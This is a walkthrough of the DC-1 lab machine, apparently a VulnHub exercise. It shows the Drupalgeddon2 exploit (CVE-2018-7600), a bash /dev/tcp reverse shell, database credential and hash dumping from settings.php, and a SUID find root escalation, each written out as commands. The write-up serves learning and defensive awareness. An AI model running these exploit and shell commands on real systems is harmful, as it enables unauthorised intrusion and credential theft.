








DC-1
DC-1 is a Drupal 7 machine that looks complicated but has a stupid-simple path to root. After initial RCE, the fastest route wasn't cracking database hashes or messing with CMS configs - it was a five-second SUID binary check. Sometimes the easiest win is right in front of you
🎯 Executive Abstract
The Problem: Outdated CMS installations are a known risk. But the bigger problem? Once you have a foothold, misconfigured SUID binaries can hand you root in seconds. DC-1 demonstrates both the danger of unpatched software AND the importance of basic privilege escalation checks.
🔍 Phase 1: Reconnaissance
Initial Nmap scan revealed three open ports:
nmap -sC -sV 192.168.56.107
Figure 1: Open ports - SSH, HTTP, RPCBind.
With HTTP on 80, web enumeration was the obvious starting point. The site revealed itself as Drupal 7 - a CMS with a well-known critical vulnerability.
💥 Phase 2: Initial Foothold - Drupalgeddon2
Drupal 7 <= 7.57 is vulnerable to CVE-2018-7600 (Drupalgeddon2), an unauthenticated RCE. A public exploit was used to gain command execution:
python3 drupa7-CVE-2018-7600.py -c "id" http://192.168.56.107Output:
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Figure 2: Unauthenticated RCE as www-data.
A reverse shell was established to get proper interaction:
python3 drupa7-CVE-2018-7600.py -c "bash -c 'bash -i >& /dev/tcp/192.168.56.1/4444 0>&1'" http://192.168.56.107With a netcat listener running, the shell connected successfully.

Figure 3: Reverse shell established.
🔍 Phase 3: The Rabbit Holes (What Didn't Work)
At this point, I had a shell as www-data. The next step should be privilege escalation, but I got distracted by shiny objects.
Rabbit Hole #1: The Flags in /var/www
Found flag1.txt immediately:
cat /var/www/flag1.txtCool, but not root.
Rabbit Hole #2: Database Credentials
Found settings.php with MySQL creds:
cat /var/www/sites/default/settings.php | grep -E "database|username|password"
'database' => 'drupaldb',
'username' => 'dbuser',
'password' => 'R0ck3t',
Figure 4: MySQL credentials in settings.php.
Rabbit Hole #3: MySQL & Password Cracking
Dumped the admin hash:
mysql -u dbuser -pR0ck3t -e 'SELECT name, pass FROM drupaldb.users;'Got the hash. Started John the Ripper. Watched it run. Got impatient.

Figure 5: Admin password hash - could crack, but there's a faster way.
I spent time on these paths. None of them led to root.
The lesson? It's easy to get distracted by interesting data. Always default back to the basics: enumeration, SUID, sudo, cron.
👑 Phase 4: Privilege Escalation
With a reverse shell as www-data, the first step was basic system enumeration to identify privilege escalation vectors.
SUID Binary Discovery
The following command was run to find all SUID binaries:
find / -perm -4000 -type f 2>/dev/nullAmong the results, one stood out:
/usr/bin/find
Figure 6: /usr/bin/find with SUID bit set.
/usr/bin/find with SUID means any command executed through find runs with root privileges. This is a well-documented privilege escalation vector.
Root Shell (One Command)
The -exec parameter allows arbitrary command execution:
find . -exec /bin/sh -p \; -quit
Figure 7: Root shell obtained.
Verification:
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)That's it. No hash cracking. No kernel exploits. No complicated paths. Just a misconfigured SUID binary that handed over root in seconds.
🏁 Phase 5: Flags Captured
With root access, finding all flags was straightforward:
find / -name "flag*.txt" 2>/dev/null
/root/flag1.txt
/root/flag3.txt
/home/flag2/flag2.txt
/home/flag4/flag4.txt
Figure 8: All flags obtained - machine compromised.
Total time from initial shell to root: ~2 minutes.
📌 Key Takeaways
- Always check SUID binaries first. It takes 30 seconds and can be the difference between a 2-minute root and a 2-hour rabbit hole.
- /usr/bin/find with SUID is an instant win. GTFObins lists this for a reason. Know your common escalation paths.
- Drupalgeddon2 is still effective. Unpatched CMS installations are low-hanging fruit. Patch or get pwned.
- The simplest path is often the best path. Don't overcomplicate. Enumerate, identify, execute.